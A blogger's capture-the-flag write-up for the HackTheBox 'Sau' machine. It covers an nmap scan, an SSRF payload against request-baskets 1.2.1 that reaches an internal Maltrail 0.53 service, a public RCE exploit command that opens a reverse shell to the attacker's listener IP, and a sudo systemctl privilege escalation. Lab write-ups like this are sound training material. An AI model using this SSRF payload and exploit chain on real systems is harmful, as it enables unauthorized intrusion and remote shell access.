 
> medium-to-markdown@0.0.3 convert
> node index.js https://medium.com/@ahmedgomaa_45441/hackthebox-write-up-sau-machine-438bc39be33f

HackTheBox write up: “Sau” Machine
==================================

[![zerosandones](https://miro.medium.com/v2/resize:fill:88:88/0*g5iT_mFvpwS_KFyc)

](https://medium.com/@ahmedgomaa_45441?source=post_page-----438bc39be33f--------------------------------)

[zerosandones](https://medium.com/@ahmedgomaa_45441?source=post_page-----438bc39be33f--------------------------------)

·

[Follow](https://medium.com/m/signin?actionUrl=https%3A%2F%2Fmedium.com%2F_%2Fsubscribe%2Fuser%2Fa3f1b2b68ccf&operation=register&redirect=https%3A%2F%2Fmedium.com%2F%40ahmedgomaa_45441%2Fhackthebox-write-up-sau-machine-438bc39be33f&user=zerosandones&userId=a3f1b2b68ccf&source=post_page-a3f1b2b68ccf----438bc39be33f---------------------post_header-----------)

5 min read·2 days ago

\--

Listen

Share

Welcome to my first write up for Hackthebox machines!

i thought it would be a good way to help me understand the topics little bit deeper, as i am trying to explain them to others, as well as maybe help others, and share my thought process, breaking into the machine.

Sau Machine ( Easy )

Sau machine is your typical Easy linux machine, pretty straight forward in most parts, only one trick in obtaining user flag, and the privilege escalation is a straightforward one ( i spent 40 minutes on it, i might be a little bit stupid ngl ).

Okay, we start as we always do, with basic Nmap scan to the target, and see what do we have here,

```
nmap -sV -sC 10.10.11.224 -v
```

We are using -sV and -sC here for probing the open ports and trying to get info about the version running by running it against default nmap scripts, the -v for verbose results showing, so we get an idea what is going in, while the scan is undergoing.

nmap scan results

We can already see here couple of intresting information, the most eye-catching the open port 55555, which we can see from the results runs some sort of a webpage, lets try to visit it and see whats going on!

Web interface

We are greeted with a web interface, that seems to make some sort of baskets, lets try all the functionalities to try to poke around and get a better idea of what does this application does.

Created a bucket, and recieved respones

We can see here we created a bucket name “lol”, and it gives us an api url “[http://10.10.11.224:55555/lol](http://10.10.11.224:55555/lol)”, where if we send web requests to it, we can log the requests and the respone in the web interface, a simple get request with curl would be with command:

```
curl "http:10.10.11.224:55555/lol" 
```

Now if we take a look at the other fucntionalites provided, we can see in the settings, and option thats called: “Forward URL”

Forward URL? like can i send a request and the server forwards it? to anywhere? can it hit home? 127.0.0.1 kind of home? okay huge potential!

looking around in the other website pages and functionalities, i can help but see a footer that mentions the library used and its version, “request-baskets, version 1.2.1”

okay, thanks for the doing th hardwork, lets see if we can find and public vulnerabilites regarding the version of the software

yeah, i think we pretty much found what are we searching for! ssrf vulnerable library, hehe

using assist from the detailed thread about the SSRF : [https://notes.sjtu.edu.cn/s/MUUhEymt7](https://notes.sjtu.edu.cn/s/MUUhEymt7#)

we see that the api /api/baskets/{name} is vulnerable,

and using the crafted payload to send a post request, that redirects to home(127.0.0.1) and sending it using postman

```
{  
  "forward\_url": "http://127.0.0.1:80/test",  
  "proxy\_response": false,  
  "insecure\_tls": false,  
  "expand\_path": true,  
  "capacity": 250  
}
```

we can see, we have accessed internal page, in the footer of this page, we can notice the library and version, “Maltrail V0.53”.

Again, we lookup to see if there are any public CVEs related to it

we can see there is an RCE exploit available, with POC, lets download this POC from github and see if we can run it!

now if we look at the exploit documentation, we can see the arguments it takes to run it

```
python3 exploit.py \[listening\_IP\] \[listening\_PORT\] \[target\_URL\]
```

in this case, we have

```
python3 exploit.py 10.10.16.7 4444 http://10.10.11.224:55555/lol
```

But before we run it, we need to have a listener running to catch the connection,( Since its a reverse shell, not bind )

And after running the exploit, we can see, we have got our reverse shell successfully!

we can then get our flag which is in the home/puma/flag.txt directory.

— — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — —

Now, we have the user flag, but in order to obtian the root flag, we need to escalate our privilges into root, there are multiple ways we can try to escalate our privilegs through, either with LinEnum or linPeas,

but like to first check manually if we can abuse any GTFObins that can give us root permissions, since its fast and easy step,

we can first start checking by running “sudo -l” to see what can run with sudo without the root password

we can see we can run systemctl with root without the root password, but can we maybe abuse it to give it root permissions? lets check if it is in the GTFObins…

yessir! that means we can use it to escalate our priviliges, we can scroll down to see how exactly,

Lets try ( C ) and see if it works,

yessir!

we can find root flag under /flag.txt!

i hope it was helpful!

see you next time!
